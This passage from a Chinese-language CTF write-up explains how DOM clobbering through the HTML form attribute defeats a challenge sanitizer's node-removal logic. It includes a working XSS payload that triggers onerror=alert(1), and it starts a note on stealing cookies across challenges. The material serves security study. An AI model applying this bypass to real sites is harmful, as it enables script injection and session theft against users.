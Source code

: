 理所当然地把元素放在 form 里面，就可以污染 `test.x` 。

但其实还有一招是使用 `form` 属性，就可以把元素放在外面：

```markup
<input form=test name=x>
<form id="test"></form>
```

这一题的 sanitizer 在移除元素时，是这样做的：

```javascript
removeNode = (currentNode) => {
    const parentNode = currentNode.parentNode;
    const childNodes = currentNode.childNodes;

    if (childNodes && parentNode) {
        const childCount = childNodes.length;

        for (let i = childCount - 1; i >= 0; --i) {
            parentNode.insertBefore(
                childNodes[i].cloneNode(),
                currentNode.nextSibling
            );
        }
    }

    currentNode.parentElement.removeChild(currentNode);
}
```

把要删除的元素底下的 node，都插入到 parent 的 nextSibling 去。

因此，如果 clobber 了 nextSibling，制造出这样的结构：

```markup
<input form=test name=nextSibling> 
<form id=test>
  <input name=nodeName>
  <img src=x onerror=alert(1)>
</form>
```

就会在移除 `<form>` 时，把底下的节点都插入到 `<input form=test name=nextSibling>` 后面，借此绕过 sanitizer。

真有趣的题目！虽然知道有 `form` 这个属性，但还没想过可以拿来搭配 DOM clobbering。

作者的 writeup：[https://twitter.com/kevin\_mizu/status/1701922141791211776](https://twitter.com/kevin_mizu/status/1701922141791211776)

## LakeCTF 2023 GeoGuessy

來源是參考這篇 writeup：XSS，Race Condition，XS-Leaks and CSP & iframe 的沙盒旁路 - LakeCTF 2023 GeoGuessy

先来看两个有趣的 unintended，第一个是利用 cookie 不看 port 的特性，用其他题目的 XSS 来拿到 cookie，不同题目之间如果没有隔离好就会这样，例如说 SekaiCTF 2023 - leakless note 也是。
